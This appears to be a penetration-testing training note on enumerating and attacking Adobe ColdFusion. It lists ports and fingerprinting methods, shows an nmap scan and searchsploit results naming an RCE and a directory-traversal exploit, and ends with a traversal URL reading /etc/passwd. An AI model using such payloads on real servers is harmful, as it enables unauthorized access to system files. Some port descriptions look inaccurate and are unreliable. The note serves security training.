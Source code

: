 | Performance                             | ColdFusion is designed to be highly performant and is optimised for low latency and high throughput. It can handle a large number of simultaneous requests while maintaining a high level of performance.                                                                                                                                                                                                                                                                                                                                                                                                                 |
| Collaboration                           | ColdFusion offers features that allow developers to work together on projects in real-time. This includes code sharing, debugging, version control, and more. This allows for faster and more efficient development, reduced time-to-market and quicker delivery of projects.                                                                                                                                                                                                                                                                                                                                             |


ColdFusion exposes a fair few ports by default:
| Port Number | Protocol       | Description                                                                                                                                                                                                 |
|-------------|---------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 80          | HTTP          | Used for non-secure HTTP communication between the web server and web browser.                                                                                                                              |
| 443         | HTTPS         | Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.                                                               |
| 1935        | RPC           | Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device.                                      |
| 25          | SMTP          | Simple Mail Transfer Protocol (SMTP) is used for sending email messages.                                                                                                                                    |
| 8500        | SSL           | Used for server communication via Secure Socket Layer (SSL).                                                                                                                                                |
| 5500        | Server Monitor| Used for remote administration of the ColdFusion server.                                                                                                                                                     |

**Enumeration**

| Method          | Description                                                                                                                                                                                                                                           |
|-----------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Port Scanning   | ColdFusion typically uses port 80 for HTTP and port 443 for HTTPS by default. So, scanning for these ports may indicate the presence of a ColdFusion server. Nmap might be able to identify ColdFusion during a services scan specifically.           |
| File Extensions | ColdFusion pages typically use ".cfm" or ".cfc" file extensions. If you find pages with these file extensions, it could be an indicator that the application is using ColdFusion.                                                                     |
| HTTP Headers    | Check the HTTP response headers of the web application. ColdFusion typically sets specific headers, such as "Server: ColdFusion" or "X-Powered-By: ColdFusion", that can help identify the technology being used.                                    |
| Error Messages  | If the application uses ColdFusion and there are errors, the error messages may contain references to ColdFusion-specific tags or functions.                                                                                                         |
| Default Files   | ColdFusion creates several default files during installation, such as "admin.cfm" or "CFIDE/administrator/index.cfm". Finding these files on the web server may indicate that the web application runs on ColdFusion.                                 |


````
$ nmap -p- -sC -Pn 10.129.247.30 --open
8500/tcp  open  fmtp
````
Navigating around the structure a bit shows lots of interesting info, from files with a clear .cfm extension to error messages and login pages.

**Attacking ColdFusion**
````
$ searchsploit adobe coldfusion
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                       | cfm/webapps/50057.py
Adobe ColdFusion - Directory Traversal                                                    | multiple/remote/14641.py
````
ColdFusion 8 , and there are two results of interest: The Adobe ColdFusion - Directory Traversal and the Adobe ColdFusion 8 - Remote Command Execution (RCE) results.

**Directory Traversal**
````
http://example.com/index.cfm?directory=../../../etc/&file=passwd
````